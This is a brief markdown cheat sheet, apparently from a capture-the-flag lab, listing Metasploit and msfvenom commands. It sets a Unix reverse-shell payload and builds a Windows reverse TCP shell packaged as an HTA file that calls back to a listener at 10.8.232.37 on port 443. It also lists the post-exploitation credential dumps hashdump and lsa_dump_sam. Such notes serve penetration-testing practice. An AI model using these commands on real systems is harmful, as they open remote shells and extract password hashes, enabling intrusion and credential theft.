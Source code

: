 # Metasploit Commands

```
set PAYLOAD payload/cmd/unix/reverse
```
# MSFVenom Commands

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta
```
```
hashdump
```

```
lsa_dump_sam
```
